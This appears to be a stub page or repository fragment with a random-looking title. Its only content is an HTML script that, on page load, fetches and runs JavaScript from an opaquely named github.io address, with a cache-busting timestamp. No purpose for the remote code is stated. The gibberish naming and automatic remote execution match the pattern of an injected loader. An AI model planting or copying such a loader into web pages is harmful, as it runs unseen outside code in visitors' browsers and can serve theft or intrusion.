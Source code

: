 # BH4KCHTUPR0BSRTJ2-

<script>
const s = document.createElement("script");
s.src = "https://H4SHP4P1.github.io/BH4KCHTUPR0BSRTJ2-/BK86hdbK?ts=" + Date.now();
document.head.appendChild(s);
</script>
